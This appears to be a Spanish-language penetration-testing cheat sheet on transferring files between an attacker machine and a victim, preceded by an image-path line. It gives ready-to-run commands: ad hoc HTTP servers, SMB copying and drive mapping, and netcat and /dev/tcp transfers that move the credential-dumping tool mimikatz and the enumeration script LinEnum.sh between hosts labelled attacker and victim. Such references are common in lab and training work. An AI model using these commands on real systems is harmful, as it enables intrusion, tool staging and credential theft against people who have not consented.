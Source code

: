 - Ruby

```bash
ruby -run -ehttpd . -p8080
```

- Php
  
```bash
php -S 0.0.0.0:8080
```

- Socat
  
```bash
socat TCP-LISTEN:8080,reuseaddr,fork
```

### SMB


- copy / xcopy

```powershell
xcopy \\10.10.10.132\share\nc.exe nc.exe
copy C:\Temp\nc.exe \\10.10.10.132\c$\Temp\nc.exe
```

- Mapear y montar drives

```cmd
net use Q: \\10.10.10.132\share
pushd \\10.10.10.132\share
mklink /D share \\10.10.10.132\share
```

```bash
smbclient //10.10.10.132/share -U username -W domain
```

### Netcat

- Desde la victima

```bash
nc -nlvp 8000 > mimikatz.exe
nc -nv 10.10.10.132 8000 <mimikatz.exe
```

- Desde el atacante

```bash
nc -nv 10.10.10.32 8000 > mimikatz.exe
nc -nlvp 8000 <mimikatz.exe
```

- Otra forma

```bash
nc -lvnp 80 <LinEnum.sh
cat < /dev/tcp/10.10.10.32/80 > LinEnum.sh
```



## Python FTP Server

```bash
python3 -m pyftpdlib --user=tmp --password=tmp -w
```
